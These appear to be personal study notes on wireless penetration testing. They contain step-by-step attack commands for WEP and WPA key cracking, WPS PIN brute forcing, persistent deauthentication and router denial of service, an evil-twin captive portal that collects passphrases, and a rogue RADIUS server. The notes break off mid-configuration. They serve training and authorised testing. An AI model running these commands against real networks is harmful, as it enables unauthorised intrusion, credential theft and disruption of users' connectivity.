The PMK, nonces, and handshake MAC addresses are run through a PRF based on HMAC-SHA1 to derive the 512-bit PTK. During the handshake the AP also transmits the 256-bit GTK, or Group Temporal Key, to the client. The PTK and GTK are split into several components, some of which are used as AES keys for different types of network traffic, and some of which are integrity keys.
- KCK = PTK bits 0-127, the key confirmation key
- KEK = PTK bits 128-255, the key encryption key
- TEK = PTK bits 256-383, the temporal encryption key for unicast traffic
- TMK = PTK bits 384-511, the temporal MIC keys for TKIP
- GEK = GTK bits 0-127, the group encryption key for multicast traffic
- GIK = GTK bits 128-255, the group integrity key for TKIP
WPA enterprise
EAP = extended authentication protocol -> authenticate with RADIUS server (in airodump AUTH=MGT). Requires certificates on the server at least (deprecated EAP methods didn't require them)
EAP Transport Layer Security (EAP-TLS) is one of the most secure authentication methods, as it uses certificates on the server side and client side, instead of login and passwords, so the client and server mutually authenticate each other. EAPoL=extended authentication protocol over lan Identity = username Authentication methods: - EAP-MD5 (vulnerable to brute force, tool: eapmd5pass) - EAP-PAP - EAP-GTC - EAP-CHAP - EAP-MSCHAPv2 Encapsulations - PEAP - Protected Extensible Authentication Protocol(tunnel between client and RADIUS server, the AP sees nothing). creates a TLS tunnel before credentials are exchanged. Although different methods can be used within PEAP, MS-CHAPv2 is a commonly used inner method. PEAP and EAP-TLS mostly differ on how the data is exchanged inside the TLS tunnel. - EAP-TTLS - EAP Tunneled Transport Layer Security. also uses TLS. As opposed to EAP-TLS, it does not necessarily need client certificates. It creates a tunnel and then exchanges the credentials using one of the few possible different inner methods (also called phase 2), such as Challenge-Handshake Authentication Protocol (CHAP), Authentication Protocol (PAP), Microsoft CHAP (MS-CHAP), or MS-CHAPv2.
OWE (opportunistic wireless encryption)
encrypt traffic during a connection, to prevent eavesdropping of credential exchange
SAE (simultaneous authentication of equals)
enhanced version of diffie helmann where no pre shared key is necessary
Chapter 4 - Cracking
Default credentials
First of all, if we know the AP model, check for default credentials. The first half of the BSSID can help: https://www.wireshark.org/tools/oui-lookup.html
Online cracking
# hydra ssh
hydra -t 4 -l root -P /root/wordlists/100-common-passwords.txt ssh://192.105.16.4
# hydra ftp
hydra -t 3 -l root -P /root/wordlists/100-common-passwords.txt ftp://192.105.16.4
# POP3
hydra -L login.txt -P passwords.txt -V 192.168.50.128 -s 110 -t 2 pop3
Offline Cracking
Hashcat
- The hashcat module to crack WPA/WPA2 is 2500
- We can pause (
p) and resume (r) the hashcat execution
# info about cracking hardware
hashcat -I
# benchmark of all hash types (very slow)
hashcat -b
# benchmark a single hash type
hashcat -b -m 2500
# extract hashes from a cap file
cap2hccapx.bin file.cap output.hccapx
# crack
hashcat -m 2500 out.hccapx >wordlist>
# with -d we can choose the cracking device of the listed ones
hashcat64 -m 2500 -d 1 <pcap file> <wordlist>
# with --pot-file we can indicate another path to save the pot file
# install hashcat utilities (found in /usr/lib/hashcat-utils)
sudo apt install hashcat-utils
# convert PCAP file to HCCAPx file with a hashcat util
/usr/lib/hashcat-utils/cap2hccapx.bin wifu-01.cap output.hccapx
Hashcat modules
| type | module | example |
|---|---|---|
| WPA-EAPOL-PBKDF2 | -m 2500 | |
| WPA-EAPOL-PMK | -m 2501 | |
| WPA-PMKID-PBKDF2 | -m 16800 | |
| WPA-PMKID-PMK | -m 16801 | 2582a8281bf9d4308d6f5731d0e61c614604ba734d4e89acf0e761f4 |
| TTLS-CHAP | -m 4800 | ce8d3c0b4c5c9369ce426ba7d36d164e:38ddb29b0fea9243afb6fb9d6bb95bfb:2a |
| TTLS-MSCHAPv2 | -m 5500 | user1::::f4ed9fe147deaed3bfb1a1744ce1908788c66d281b134a11:d98dd4b772ee831c |
Password mutation
John
The rules to mutate passwords are in /etc/john/john.conf
- Rule to add 2 and 3 numbers at the end of the password:
$[0-9]$[0-9]
$[0-9]$[0-9]$[0-9]
Use --rules with john to apply rules
# See the wordlist in screen
john --wordlist=<wordlist file> --stdout
# We can see the variations that will be applied and see if password123 is generated
sudo john --wordlist=<path to wordlist> --rules --stdout |grep -i password123
# With --session the session is saved and can be restored the next time it is resumed from the last password tried
john --wordlist=<wordlist file> --stdout --session=<session name> | aircrack-ng -w - -b <AP BSSID> <file.cap>
# We can stop it with "q" or "ctrl-c", and continue later from that point
john --restore=<session name> | aircrack-ng -w - -b <AP BSSID> <file.cap>
# We can pipe mutations to aircrack without saving to disk with "-w -" :
sudo john --wordlist=<wordlist> --rules --stdout | aircrack-ng -e wifu -w - <file.pcap>
# We can save and restore sessions also with wordlists generated on the fly with crunch
crunch 8 8 | john --stdin --session=<session name> --stdout | aircrack-ng -w - -b <AP BSSID> <file.cap>
# and later restore with
crunch 8 8 | john --restore=<session name> | aircrack-ng -w - -b <AP BSSID> <file.cap>
Crunch
Generate new passwords, we need to say the minimum and maximum length (WPA requires passphrases between 8 and 63 chars). Crunch also allows us to specify a pattern with the -t option with or without a character set. Different symbols in the pattern define the type of character to use.
- @ represents lowercase characters or characters from a defined set
- , represents uppercase characters
- % represent numbers
- ^ represents symbols
# Create all combinations of words from 8 to 9 characters (a lot of output, not practical)
crunch 8 9
# Crate all combinations of words from 8 to 9 characters using only the characters: a,b,c,1,2 and 3:
crunch 8 9 abc123
# Create combinations of 11 chars formed by the word "Password" and 3 numbers
crunch 11 11 Password%%%
# equivalent:
crunch 11 11 0123456789 -t password@@@
# generate unique combinations from a set (in this case the min and max lengths are ignored but we need to provide them so that the program doesn't fail)
crunch 1 1 -p abcdefg1234
# Generate unique words from some words (it combines them)
crunch 1 1 -p january february march
# Generate patterns with the words we say (they are replaced in the "d")
crunch 5 5 -t ddd%% -p january february march
# If instead of the % we use @ crunch adds lowercase letters instead of numbers
# it replaces the letters "aADE" in the @@ and the words in the "d" letters
crunch 5 5 aADE -t ddd@@ -p january february march
# pipe output from crunch to aircrack:
crunch 5 5 aADE -t ddd@@ -p january february march | aircrack-ng -e wifu file.pcap -w -
Mangler
Ruby script to mutate passwords --allow-duplicates is usually worth it because of the time we save in not checking if there are duplicates
# Mutate words of a file
rsmangler --file file.txt
cat file.txt | rsmangler --file -
# Limit the size of the generated words
rsmangler --file wordlist.txt --min 12 --max 13
# Pipe to aircrack (don't use --output, that is only to save to disk)
rsmangler --file wordlist.txt --min 12 --max 13 | aircrack-ng -e wifu file.pcap -w -
A set of three words generates about 6,000 passwords, four words generates about 23,000 passwords, and five words generates about 125,000 passwords. We need to take care to ensure the wordlist we begin with is a reasonable size.
coWPAtty
Tool that recovers WPA pre-shared keys using both dictionary and rainbow table attacks. Although coWPAtty is not being developed anymore, it is still useful, especially when using its rainbow table attack method. Install it with sudo apt install cowpatty
#Generate rainbow tables
genpmk -f <password file> -d hashes -s test
cowpatty -r wpa-01.pcap -d hashes -s test
extra WEP
Automatic tool. It sends packets to the WEP network that we are trying to attack. It may be necessary to run this command several times, sometimes it fails.
besside-ng wlan0 -c 6 -b <BSSID>
wordlists
ftp://ftp.openwall.com/pub/wordlists/ http://www.openwall.com/mirrors/ https://github.com/danielmiessler/SecLists http://www.outpost9.com/files/WordLists.html http://www.vulnerabilityassessment.co.uk/passwords.htm http://packetstormsecurity.org/Crackers/wordlists/ http://www.ai.uga.edu/ftplib/natural-language/moby/ http://www.cotse.com/tools/wordlists1.htm http://www.cotse.com/tools/wordlists2.htm http://wordlist.sourceforge.net/
Chapter 5 - WEP
Quick Notes
## Fake Authentication Attack
airmon-ng start <interface> <AP_Channel> ## setting the wireless card (wlan0) to monitor mode
macchanger --show <interface> ## learning the MAC address of the mon0 (monitor mode) network interface
airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface> ## listening to the target AP on the specified channel
aireplay-ng -1 0 -e <ESSID> -a <AP_MAC> -h <Your_MAC> <interface> ## performing a fake authentication attack against AP
## Deauthentication Attack
airmon-ng start <interface> <AP_Channel> ## setting the wireless card (wlan0) to monitor mode
airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface> ## listening to the target AP on the specified channel
aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface> ## performing a deauthentication attack against AP
## ARP Request Replay Attack
airmon-ng start <interface> <AP_Channel> ## setting the wireless card (wlan0) to monitor mode
airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface> ## listening to the target AP on the specified channel
aireplay-ng -1 0 -e <ESSID> -a <AP_MAC> -h <Your_MAC> <interface> ## performing a fake authentication attack against AP
aireplay-ng -3 -b <AP_MAC> -h <Your_MAC> <interface> ## performing a ARP Request Replay attack against AP
aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface> ## performing a deauthentication attack against AP
aircrack-ng <capture_file> ## cracking WEP key (In order to achieve a successful result, you need to catch a sufficient number of IVs during the attack.)
## Interactive Packet Replay Attack
airmon-ng start <interface> <AP_Channel> ## setting the wireless card (wlan0) to monitor mode
airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface> ## listening to the target AP on the specified channel
aireplay-ng -1 0 -e <ESSID> -a <AP_MAC> -h <Your_MAC> <interface> ## performing a fake authentication attack against AP
aireplay-ng -2 -b <AP_MAC> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 <interface> ## performing a interactive packet replay attack against AP
aircrack-ng -z <capture_file> ## cracking WEP key (In order to achieve a successful result, you need to catch a sufficient number of IVs during the attack.)
## Fragmentation Attack
airmon-ng start <interface> <AP_Channel> ## setting the wireless card (wlan0) to monitor mode
airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface> ## listening to the target AP on the specified channel
aireplay-ng -1 0 -e <ESSID> -a <AP_MAC> -h <Your MAC> <interface> ## performing a fake authentication attack against AP
aireplay-ng -5 -b <AP_MAC> -h <Your MAC> <interface> ## performing a fragmentation attack against AP
packetforge-ng -0 -a <AP_MAC> -h <Your_MAC> -l <Source_IP> -k <Dest_IP> -y <XOR_file> -w <output_file> ## creating an ARP request packet using packetforge-ng
tcpdump -n -vvv -e -s0 -r <output_file> ## check the contents of the created package
aireplay-ng -2 -r <output_file> <interface> ## injecting the generated packet into the network (If the correct pack is injected, the IV amount will increase rapidly.)
aircrack-ng <capture_file> ## cracking WEP key (In order to achieve a successful result, you need to catch a sufficient number of IVs during the attack.)
## Korek ChopChop Attack
airmon-ng start <interface> <AP_Channel> ## setting the wireless card (wlan0) to monitor mode
airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface> ## listening to the target AP on the specified channel
aireplay-ng -1 0 -e <ESSID> -a <AP_MAC> -h <Your_MAC> <interface> ## performing a fake authentication attack against AP
aireplay-ng -4 -b <AP_MAC> -h <Your_MAC> <interface> ## performing a korek chopchop attack against AP
packetforge-ng -0 -a <AP_MAC> -h <Your_MAC> -l <Source_IP> -k <Dest_IP> -y <XOR_file> -w <output_file> ## creating an ARP request packet using packetforge-ng
tcpdump -n -vvv -e -s0 -r <output_file> ## check the contents of the created package
aireplay-ng -2 -r <output_file> <interface> ## injecting the generated packet into the network (If the correct pack is injected, the IV amount will increase rapidly.)
aircrack-ng <capture_file> ## cracking WEP key (In order to achieve a successful result, you need to catch a sufficient number of IVs during the attack.)
## Bypassing WEP Shared Key Authentication
airmon-ng start <interface> <AP_Channel> ## setting the wireless card (wlan0) to monitor mode
airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface> ## listening to the target AP on the specified channel
aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface> ## performing a deauthentication attack against AP to capture the PRGA XOR keystream
aireplay-ng -1 0 -e <ESSID> -y <keystream file> -a <AP_MAC> -h <Your_MAC> <interface> ## performing a fake shared key authentication using XOR key flow
aireplay-ng -3 -b <AP_MAC> -h <Your_MAC> <interface> ## performing a ARP Request Replay attack against AP
aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface> ## performing a deauthentication attack against AP
aircrack-ng <capture_file> ## cracking WEP key (In order to achieve a successful result, you need to catch a sufficient number of IVs during the attack.)

CRC-32 is a digest, just like MD5
An attacker can sniff packets, where the IV (24 bit) is in plain text. since 24 bit is not much, capturing enough packets, statistical attacks can be run. RC4 generates the same keystring for a same IV+key. #Data in airodump shows how many useful packets have been captured. When enough are present we can crack it with:
aircrack-ng archivo.cap
Sometimes aircrack doesn't return the ascii version of the key but we can connect to the network with the hex (without the ":" ).
If not many clients are connected we can force the AP to send us traffic. We first need to associate with it (otherwise it ignores our requests), then we can send packets and capture the IVs in the packets it returns to us.
For this, keep saving packets:
sudo airodump-ng --bssid <bssid> --channel <channel> --write out wlan0mon
and do a fake auth (the 0 indicates that the attack is done once):
sudo aireplay-ng --fakeauth 0 -a <AP bssid> -h <la MAC de wlan0mon> wlan0mon
In monitor mode, with ifconfig we see unspec instead of ether and the MAC looks longer, we need only the first 6 bytes:
and for aireplay commands replace - by :
At this point we are only associated to the AP, not connected to it. There are several methods to generate traffic:
Crafted ARP packets
Wait till there is an ARP packet (sent by the clients already connected to the network). They will be encrypted but because of their length we know they can be ARP. We just relay them to the AP. The AP will respond to us with another packet with a new IV. We do this until we have enough IVs.
To do this (just befor this command run the --fakeauth just in case)
It is necessary to use a target client MAC with -h, the MAC of a client that is already connected to the network and sends valid IVs
sudo aireplay-ng --arpreplay -b <AP bssid> -h <target client MAC> wlan0mon
The -a used in other commands is replaced by -b for the BSSID and the --arpreplay doesn't have any number afterward
This captures packets until one of them is an ARP request, and then starts to generate traffic. Watch with airodump who many useful packets we have in #Data.
to capture useful ARP packets we either need to be associated with the AP (fakeauth) or use with aireplay-ng arpreplay the MAC of an associated client
Depending on the key length (64 or 128) bit it takes more IVs to crack the key
Stealthy sniffing
Just waiting for clients to send a lot of IVs to the AP can take a lot of time but it's stealty
Chop chop attack
Instead of replaying an ARP packet we determine the keystream of a packet, we craft a new packet with the keystream and inject it to the AP. The AP will respond with a new IV that we will replay, etc. Can be used when no clients are connected to the AP
The --fakeauth attack is only used against OPEN and WEP networks, it doesn't work against WPA/WPA2. Fake auth doesn't generate ARP packets. The lack of association with the access point is the biggest reason why injection fails, so we need to do fakeauth before trying to inject packets to WEP networks (ARP replay, chopchop, fragmentation attack). Sometimes you periodically get disassociation events. Some access points require to reassociate every 30 seconds, otherwise the fake client is considered disconnected. In this case, setup the periodic re-association delay:
aireplay-ng -1 30 -e 'the ssid' -a 00:13:10:30:24:9C -h 00:11:22:33:44:55 ath0
If fake authentication is never successful (aireplay-ng keeps sending authentication requests) then MAC address filtering may be in place
more info and troubleshooting in: https://www.aircrack-ng.org/doku.php?id=fake_authentication
# We first start airodump to capture packets and save them to a file
sudo airodump-ng --bssid <bssid> --channel <channel> --write out wlan0mon
# Then we do fake auth with aireplay to associate to the AP (run just before the chop chop attack). We can get our MAC with ifconfig wlan0
sudo aireplay-ng --fakeauth 0 -a <AP bssid> -h <our wlan0mon MAC that we want to associate> wlan0mon
# chop chop attack (waits for beacons from AP to try to determine keystream from them)
sudo aireplay-ng --chopchop -b <AP bssid> -h <our wlan0mon MAC> wlan0mon
# When it finds an ARP packet it asks if we want to use it. say "y". After a while it saves the keystream in a xor file. We can do ctrl-C to not wait much, but the saved keystream may fail. If so, keep the chop chop working for longer.
# After that, forge an ARP packet (-0 option)
packetforge-ng -0 -a <bssid> -h <our wlan0mon MAC address> -k 255.255.255.255 -l 255.255.255.255 -y <file.xor> -w <forged packet name>
# -k is destination IP (use 255.255.255.255)
# -l is source IP (use 255.255.255.255)
# <forged packet name> can be anything, it's the name of the forged packet
# having done --deauth again, use the forged packet:
sudo aireplay-ng -2 -r <forged packet name> wlan0mon
# -2 is for replaying
# it asks again if we want to use the packet. say "y", this starts to generate traffic that airodump caputres
fragmentation attack
Similar to chop chop but we need to obtain 1500 bytes from the pseudo random generator algorithm (PRGA). With this attack another packet is forged, but it's faster than chop chop, although we need to be physically close to the AP so that it works better.
# Start saving packets
sudo airodump-ng --bssid <bssid> --channel <channel> --write out wlan0mon
# fake auth (the 0 instructs to do the attack once)
sudo aireplay-ng --fakeauth 0 -a <AP bssid> -h <our wlan0mon MAC> wlan0mon
# Obtain PRGA
aireplay-ng --fragment -b <bssid> -h <our wlan0mon MAC> wlan0mon
# Say "y" when asked. It may fail several times and ask us if we want to use another. say "y" always. When one of the packets is useful it lets us know and saves the keystream in a .xor file
# forge a new packet (with -0 it creates an ARP packet)
packetforge-ng -0 -a <bssid> -h <nuestra mac de wlan0mon> -k 255.255.255.255 -l 255.255.255.255 -y <xor file> -w <output>
# inject the forged packet (remember to do fake auth just before this)
sudo aireplay-ng -2 -r <forged packet name> wlan0mon
WEP SKA
Normally when we do fake auth with aireplay-ng to a WEP network we can see it becomes OPN, but some routers allow to configure Shared Key Authentication (SKA), which prevents that no one without that key can associate to the AP (unlike in OPEN networks, where anyone can associate). In networks with SKA set up we will see SKA after doing fake auth.
It is possible to deauthenticate a connected client, and capture the SKA when he reconnects. With this key we can associate to the AP and try the previous attacks to recover the WEP key.
We can also inject an ARP packet using the MAC address of the client which is already connected to the AP. With this we can generate traffic to recover IVs and still crack the WEP password, despite not having the SKA.
sudo aireplay-ng --arpreplay -b <AP bssid> -h <MAC of a connected client> wlan0mon
The 802.11w standard protects against deauth attacks, buth must be supported by both the client and the AP
When we have cracked a WEP or WPA key we can decrypt captured traffic in wireshark:
preferences > protocols > IEEE 802.11, check "enable decryption", edit the decryption keys y create new entries. For WEP, use the key in hex format.`
If we don't have wireshark we can do:
airdecap-ng -w <wep key in hex> <pcap>
tshark -r <decrypted pcap>
AP-less attacks: Caffe latte attack
We can craft packets by modifying the ICV (integrity check value, that is, a CRC) and the plantext of a message and do so in a way that the AP thinks that the message is legitimate.
With this we can modify a Gratuitous ARP packet and change it to an ARP request packet, to repeat the ARP attack
Client devices store the keys of the networks they already connected to in the past. If we create a fake AP that looks like on of the stored APs in the client PNL, he will connect to us and send WEP-encrypted data with the target AP key. Sometimes it sends also Gratuitous ARP packets, to say its IP and MAC In these messages we won't find the target MAC, and the target IP and sender IP are the same (that of the client). We as an AP send requests to the client, and he will return responses to us, from where we get valid IVs that can be cracked as always.
We don't have a valid WEP keys for the crafted packets, but due to the properties of XOR we can modify the packets that he sends us, and they will still be valid.
Hirte attack
AP-less attack
# create fake AP (-N for hirte attack)
airbase-ng -c 1 --essid "network1" -W 1 -N mon0
# capture packets
airodump-ng -c 1 mon0 --write Hirte
# wait for the client to connect, and ARP packets should start being replayed,
WEP cloacking
WEP protection in which fake packets are sent into the air to make it difficult to crack WEP (they try to difficult the statistical attacks)
Chapter 6 - WPA
WPA/WPA2
https://www.youtube.com/watch?v=Ra0dGPYScLQ
Quick Notes
## Cracking with Aircrack-ng
airmon-ng start <interface> <AP_Channel> ## setting the wireless card (wlan0) to monitor mode
airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface> ## listening to the target AP on the specified channel
aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface> ## performing a deauthentication attack against AP to capture the handshake packet
aircrack-ng -w <wordlist> <capture_file> ## cracking WPA password with aircrack-ng
## Cracking with JTR and Aircrack-ng
airmon-ng start <interface> <AP_Channel> ## setting the wireless card (wlan0) to monitor mode
airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface> ## listening to the target AP on the specified channel
aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface> ## performing a deauthentication attack against AP to capture the handshake packet
./john --wordlist=<wordlist> --rules --stdout | aircrack-ng -e <ESSID> -w - <capture_file> ## cracking WPA password with JTR and aircrack-ng
## Cracking with coWPAtty
airmon-ng start <interface> <AP_Channel> ## setting the wireless card (wlan0) to monitor mode
airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface> ## listening to the target AP on the specified channel
aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface> ## performing a deauthentication attack against AP to capture the handshake packet
cowpatty -r <capture_file> -f <wordlist> -2 -s <ESSID> ## cracking WPA password with coWPAtty in dictionary mode
or
genpmk -f <wordlist> -d <hashes_file> -s <ESSID> ## generating hashes to crack WPA password in coWPAtty with rainbow table mode
cowpatty -r <capture> -d <hashes_file> -2 -s <ESSID> ## cracking WPA password with coWPAtty using generated hashes
## Cracking with Pyrit
airmon-ng start <interface> <AP_Channel> ## setting the wireless card (wlan0) to monitor mode
pyrit -r <interface> -o <capture_file> stripLive ## using pyrit to sniff in monitor mode interface by saving the capture process to a file
aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface> ## performing a deauthentication attack against AP to capture the handshake packet
pyrit -r <capture_file> -i <wordlist> -b <AP_MAC> attack_passthrough ## cracking WPA password with pyrit in dictionary mode
or
pyrit -i <wordlist> import_passwords ## import word list to crack WPA password in pyrit with database mode
pyrit -e <ESSID> create_essid ## adding the ESSID of the access point to the pyrit database
pyrit batch ## creating PMKs for ESSID
pyrit -r <capture_file> -b <AP_MAC> attack_db ## cracking WPA password in database mode with pyrit
Before trying to crack WPA find out if WPS is enabled, which is easier to crack
WPS
Method to authenticate to WPA without the passphrase, only with a 8 character ping. It can be cracked faster because of its length, and once obtained, the WPA/WPA2 passphrase can be automatically recovered.
Requirements (hard to find nowadays)
- WPS must be enabled
- WPS must be using
pin authenticationand not PBC (Push Button Configuration). With option, a physical button in the router must be pushed to activate the use of WPS for some time interval. PBC usually is active by default in modern routers, or WPS is directly disabled by default.
# Find APs with WPS activated (exit with ctrl-C)
wash --interface wlan0mon
wash -i wlan0mon
# scan 5GHz band
wash -i wlan0mon -5
# The Lck column says if WPS is locked (sometimes WPS gets locked after some failed attempts). WPS version 2 includes mitigations against brute force, but depending on the implementation it may only slow it down.
# The next command brute forces WPS pins, online cracking similar to hydra (-vvv for verbose, --no-associate if we have previously associated with aireplay-ng --fakeauth)
reaver -b <AP bssid> -i wlan0mon -v
reaver --bssid <AP bssid> --channel <AP channel> --interface wlan0mon -vvv --no-associate
# Pixie attack (-K), faster than the regular brute force, but doesn't always work, depends on the AP PRGA
reaver -b <AP BSSID> -i wlan0mon -v -K
# When the previous command is sent it stays waiting if we are not associated with the AP. We can do it with aireplay, so that the AP doesn't ignore the future packets that we will send (instead of 0 we can use a certain number of seconds to be associated)
sudo aireplay-ng --fakeauth 30 -a <AP bssid> -h <our own MAC> wlan0mon
Reaver outputs the WPS pin if it can find it, and thanks to it it also retrieves the passphrase (WPA-PSK), which we can use to connect to the network. Even if it finds it, it's an slow attack, it can take a few hours to complete, depending on the router AP configuration and the value of the pin (if it's one of the last ones reaver tries)
These attacks usually fail, there are several possible sources of problems. Reaver can say that the AP is deauthenticating us, among other error messages. If WPS cracking doesn't work right away it probably won't work at all. Even if an AP's WPS is not locked the attacks can fail for other reasons. For example, some routers timeout WPS after a short time since it was activated.
There are APs that don't use a pin. With bully and reaver we can use the -p '' option to check if the pin is empty
Some APs use a pin that is linked to the first three bytes of the BSSID. Airgeddon contains them in known_pins.db
To check if a certain BSSID has known default pins, use the first three bytes of the AP (without the colon symbols, in this case XXYYZ for a BSSID= XX:YY:ZZ:AA:BB:CC)
source /usr/share/airgeddon/known_pins.db
echo ${PINDB["XXYYZZ"]}
14755989 48703970 06017637
Try manually the pins returned, if any
troubleshooting the reaver: 1- If it says it cannot associate with the AP -> we need to associate manually with aireplay-ng --fakeauth in another terminal, and keep the fake auth running while we try the reaver attack (which we must run with the -A option, so that it doesn't try to associate itself to the AP, since we already are associated via aireplay-ng)
2- Reaver says WPS transaction failed, re-trying last ping (we can see this with -vvv for debugging output). Then it retries the same pin all the time. Sometimes (we can see in the output) this is due to the use of NACK packets. We can try with the option -N (or --no-nacks) to not send them.
3- If reaver says "Waiting for beacon from XX:XX:XX:XX:XX:XX" we need to specify the channel manually (-c parameter)
4- The AP can have rate limiting enabled, and change state to locked (Lck) after some failed attempts. If we suspect the AP locked WPS, run wash again to check if it's in the Lck state. We can deauthenticate permanently all clients connected, so that someone complains or restarts the AP, so that we can continue bruteforcing pins. This is very clumsy and noisy, and if the rate limiting occurs fast it's probably going to be useless, as we will quickly lock WPS again.
We can run this "permanent" deauth with
sudo aireplay-ng --deauth 1000000000000 -a <AP bssid> wlan0mon
We can also try the mdk3 tool, which can cause DoS to some routers and perhaps force them to restart. Some routers unlock WPS when they restart
# DoS to an AP, with different MACs, as if it were a DDoS. Some routers reboot when too many different MACs try to connect to them because they cannot handle so many connections
# Help of the "a" option of mdk3 (used for DoS) withs
mdk3 --help a
# DoS (-m for using real looking MACs, not arbitrary ones like 00:00:00:00:00:00)
mdk3 wlan0mon a -a <AP BSSID> -m
Clients connect in amounts of 500 and it may say that it is vulnerable, or it may not say it. When we reach about 10000 stop mdk3 and use wash to check if WPS got unlocked (if the AP rebooted it will take a while before we can get useful output from wash)
- karma attack: the fake AP listens to probes sent by clients when they search for known APs and responds, telling them that he is the AP they are looking for
WPA/WPA2 cracking
WPA-> TKIP (based on WEP). WPA only required firmware update, for that reason it was accepted quickly WPA2 -> CCMP (based on AES). WPA2 needs new hardware to compute AES faster
# Run the following and wait for a handshake by a new client connecting to the network
sudo airodump-ng --bssid <AP bssid> --channel <channel> --write <cap file> wlan0mon
# We can also deauthenticate a client to force him to reconnect (we should see in the top right corner of the airodump-ng output tha ta handshake has been captured. I have problems with this in a VM, but not on a baremetal linux)
sudo aireplay-ng --deauth 4 -a <AP bssid> -c <client MAC> wlan0mon
# Crack the capture file
aircrack-ng <file.cap> -w <wordlist.txt>
Cracking is time consuming because of the computation of the PBKDF2 function (4096 iterations for AES). A rainbow table can be precomputed:
genpmk -f <wordlist> -d precomputed-common -s home
And we can crack with a rainbow table attack:
cowpatty -d <precomputed wordlist> -s <ESSID> -r <capture file.cap>
# Create the <output db> database
airolib-ng <output db> --import passwd <wordlist>
# save to a file the ESSID that we want to crack
echo "<essid>" > <essid file>
# Import the ESSID in the DB
airolib-ng <output db> --import essid <essid file>
# Create a PMK for every password in the list
airolib-ng <output db> --batch
# Crack
aircrack-ng -r <output db> <file.cap>
AP-less networks
If we see a client probing for a network but the network is not there, probably it's using WPA/WPA2, we can create a honeypot with that network name and capture traffic with airodump, so that when he tries to connect to us we capture a handshake that we can try to crack
WPA3
It is not possible to crack WPA3. But we can try downgrade clients to WPA2 to capture a crackable handshake. This can be done with an evil twin with only WPA2 and 802.11w set to "optional".
If 802.11w is disabled, a client may never try to connect, but WPA2 clients rarely use it (and sometimes don't handle it well). The combination of only using WPA2 and 802.11w set to "optional" will gives us the highest chance that a client will be willing to downgrade.
To achieve this in the hostapd configuration: - wpa value should be set to "2"
- there shouldn't be a wpa_pairwise parameter
- rsn_pairwise should be set to "CCMP" only
- To enable 802.11w, we would set ieee80211w as a new parameter with the value of "1" (indicating it is optional).
- The latter also requires that we add "WPA-PSK-SHA256" to wpa_key_mgmt.
Discovery
sudo airodump-ng -w discovery --output-format pcap wlan0mon
sudo aireplay-ng -0 0 -a 00:0E:08:90:3A:5F wlan0mon
Build
sudo apt install apache2 libapache2-mod-php
wget -r -l2 https://www.megacorpone.com
- Let's create our captive portal login page, called index.php in /var/www/html/portal
sudo cp -r ./www.megacorpone.com/assets/ /var/www/html/portal/
sudo cp -r ./www.megacorpone.com/old-site/ /var/www/html/portal/
Setup
sudo ip addr add 192.168.87.1/24 dev wlan0
sudo ip link set wlan0 up
sudo apt install dnsmasq
* setup mco-dnsmasq.conf*
sudo dnsmasq --conf-file=mco-dnsmasq.conf
sudo tail /var/log/syslog | grep dnsmasq
sudo netstat -lnp
sudo apt install nftables
sudo nft add table ip nat
sudo nft 'add chain nat PREROUTING { type nat hook prerouting priority dstnat; policy accept; }'
sudo nft add rule ip nat PREROUTING iifname "wlan0" udp dport 53 counter redirect to :53
*In Apache's site configuration, we need to add mod_rewrite7 and mod_alias7:1 rules so that the captive portal is set properly. We'll add the following lines in /etc/apache2/sites-enabled/000-default.conf before the VirtualHost closing tag.*
sudo a2enmod rewrite
sudo a2enmod alias
sudo a2enmod ssl
sudo systemctl restart apache2
Attack Run
sudo hostapd -B mco-hostapd.conf
sudo tail -f /var/log/syslog | grep -E '(dnsmasq|hostapd)'
sudo tail -f /var/log/apache2/access.log
sudo cat /tmp/systemd-private-0a505bfcaf7d4db699274121e3ce3849-apache2.service-lIP3ds/tmp/passphrase.txt
Chapter 7 - WPA Enterprise
My Notes
Certificates
sudo airodump-ng wlan0mon
We have to open the capture file with _Wireshark_ and locate the server certificate frame.
tls.handshake.certificate
which will show the exact frames where the certificate is given.
--------
1) In the **Packet Details** pane
2) open _Extensible Authentication Protocol
3) _Transport Layer Security_
4) Open the **TLSv1 Record Layer: Handshake Protocol: Certificate**
5) Expand **Handshake Protocol: Certificate** item
6) then **Certificates** (plural).
7) Inside **Certificates**, we see one or more entries named **Certificate**
8) For each certificate, we right click and select _Export Packet Bytes_ to save the data into a file with a .der extension.
9) openssl x509 -inform der -in CERTIFICATE_FILENAME -text
1) where **CERTIFICATE_FILENAME** is the path to the certificate.
10) We can convert it to PEM format using
1) openssl x509 -inform der -in CERTIFICATE_FILENAME -outform pem -out OUTPUT_PEM.crt
Attack
sudo apt install freeradius
sudo -s
cd /etc/freeradius/3.0/certs
nano ca.cnf
...
[certificate_authority]
countryName = US
stateOrProvinceName = CA
localityName = San Francisco
organizationName = Playtronics
emailAddress = ca@playtronics.com
commonName = "Playtronics Certificate Authority"
...
nano server.cnf
...
[server]
countryName = US
stateOrProvinceName = CA
localityName = San Francisco
organizationName = Playtronics
emailAddress = admin@playtronics.com
commonName = "Playtronics"
...
rm dh
make
sudo hostapd-mana /etc/hostapd-mana/mana.conf
...
# SSID of the AP
ssid=Playtronics
# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211
# Channel and mode
